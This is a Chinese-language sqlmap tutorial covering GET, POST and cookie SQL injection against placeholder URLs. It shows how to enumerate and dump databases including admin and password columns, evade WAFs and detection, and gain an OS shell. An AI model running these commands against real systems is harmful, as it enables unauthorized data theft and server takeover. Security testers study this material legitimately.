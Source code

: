 Sqlmap
======

注入分法不同，种类不同，来个简单的分类：<br/>

        1.get型:        sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx"
        2.post型:       sqlmap -u "http://xxx.xx.xxx/xx.xxx" --data="xxxx=xxxx&xxxx=xxx"
        3.cookie类注入: sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx" --cookie="xxx=xxx&xxx=xxx" --level=2


需要数据库好：<br/>

        --dbs
得到数据库名称xxx，需要表： <br/>

        -D xxx --tables
得到表名xxxx，需要段：<br/>

        -D xxx -T xxxx --columns
得到段内有admin，password，需要值：<br/>

        -D xxx -T xxxx -C "admin,password" --dump

那么我们来理解一下，-D -T -C 是干吗的，当然就是知道其名称，指定使用它。<br/>
--dbs --tables --columns 是干吗的，当然就是不知道名称，列出来呗<br/>
--dump 那自然就是字面意思，类似于导出数据的行为<br/>
其实注入有了上面这几个命令，妥妥的够用了，不过还需要绕waf：<br/>

        --tamper=""
注入被识别出来是工具，断开咋办：<br/>

        --user-agent=""


好，跑数据库就是这么简单，于是呢来一个稍微有点干货的例子：<br/>
*http://www.xxx.com/login.asp*
有post注入,但是我不想出去拷贝post数据，很麻烦，我想让sqlmap自动跑post注入  


        sqlmap -u "http://www.xxx.com/login.asp" --forms
很好，上面的命令成功的帮我跑了post注入，并且找到了post的注入点jjj=123，于是我用的命令看看数据库<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj --dbs
顺便看看当前用户是不是dba<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj --is-dba
        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -a 
用了上面的命令 -a能得到什么呢：自己去看帮助吧。<br/>
帮你筛选了一下，-a下面的那些命令是用来看用户，看主机，看权限的。<br/>
我发现权限还是挺高的，同时呢，我跑出来了数据库名称kkk<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -D kkk --tables
同时我找到了网站路径，然后我就又一次找到了sqlmap的牛逼的--os-xx系列命令，可以执行系统命令，同时还发现了牛逼的xpcmdshell<br/> 

        --os-shell
以及很多牛逼的文件操作命令<br/>

        --file-xx 
这些命令在需要用的时候使用就是了，会给你带来意想不到的惊喜<br/>
与此同时，我发现tables里面没有我想要的东西，我也找不到合适的内容，咋办呢，心一横，我决定把所有的数据库内容跑出来自己找，<br/>
于是我这么做：<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -D kkk --dump-all
然后牛逼的sqlmap就开始跑啊跑，然后紧接着我的蛋就碎了，尼玛，sqlmap一会就问你一次要不要破解密码<br/>
，要不要这个，要不要那个，我和我的小朋友们都想擦你妹夫，功夫不负有心人，我又看见了一个命令 <br/>

        --batch 
可以自动选择sqlmap默认选项，于是，我可以和我的小朋友们玩耍去了，再也不用看着sqlmap拖库了。<br/>



总结下来，帮助文档还是很重要的，多看看，总会有些收获：<br/>
为了避免各位看英文看到吐，大概总结下：<br/>
```
* Target:       字面意思，目标，那么就是确定目标的
* Request:      字面意思，请求，就是定义请求内容的，比如post数据，http头，cookie注入，http头污染等等
* Optimization：字面意思，调节性能，等等
* Injection:    字面意思，注入的设置内容基本在这里，比如指定注入点，指定db，指定系统，等等
* Detection:    基本就是用在确认注入范围，寻找注入点区域，这些
* Technique:    基本用在确定注入手段，以及攻击方式
* Fingerprint:  基本用在指纹识别，用的很少
* Enumeration:  枚举信息，主要用在注入中，很重要，很常用
* Brute force:  用来爆破，其实主要是枚举tables columns用的
* User-defined function injection:      现在只有udf提权，以及指定一些自己定义的sqlmap脚本用，高端使用，求大牛指点
* File system access:                   主要是文件读取，文件写入
* Operating system access:              主要用在对系统操作，例如os-shell 以及 后续的连接metasploit 实现后渗透攻击
* windows registry access:              基本就是注册表操作了
* General:                              字面意思，综合的内容，一些特殊的功能实现，我在这里找到了crawl batch这些非常好用的参数
* Miscellaneous:                        目测高端应用，还没怎么用过，求大神指教
```
